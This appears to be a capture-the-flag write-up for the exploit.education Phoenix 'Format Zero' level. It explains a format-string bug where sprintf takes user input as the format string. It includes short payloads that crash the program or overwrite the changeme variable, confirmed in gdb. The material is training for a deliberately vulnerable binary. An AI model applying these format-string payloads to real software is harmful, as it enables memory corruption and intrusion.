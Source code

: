 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Format Zero](https://exploit.education/phoenix/format-zero/)

<!--more-->

The goal is to change the changeme variable of the `locals` struct. Data is read
from stdin to the local `buffer` array. It is properly bounds checked and null-terminated.
Then, data from the `buffer` variable is written to `locals.dest` using `sprintf`.

We can confirm that the read is properly bounds-checked:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*33' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

# The bug

The usage of sprintf is incorrect:

```C
sprintf(locals.dest, buffer);
```

This call does not make use of format strings (`sprintf(dest, "%s", buffer);`) but directly
uses user input as the format string. Thus, as an attacker, we can provide a string as input
containing format specifiers.

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%s"*16' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Segmentation fault
```

Depending on the format string, this can lead to a crash. Or, in another case:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%x"*8' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

What happened here?

# Analysis

The length of the user provided buffer does not matter since we can use format string modifiers to
define the length of what is written by `sprintf`. By doing so, we can have user input shorter that 15 characters
but overflow the `dest` buffer by generating a longer string.

To precisely overwrite `changeme` we need our string to have 32 characters of padding and then a 4-byte value 
we want changeme to be.

Let's confirm this theory with gdb. First we need to find out where changeme is stored:

```bash
0x08048584 <+79>:    mov    DWORD PTR [ebp-0xc],0x0
```

This instruction sets `changeme` to zero. It is located at `ebp-0xc = 0xffffd5ec`. Let's run 
with our payload and look at that word on the stack:

```bash
(gdb) run < <(python -c 'print "%32xAAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/phoenix/i486/format-zero < <(python -c 'print "%32xAAAA"')

(gdb) x/xw $ebp-0xc
0xffffd5ec:     0x41414141
```

There are our A's. Done :).

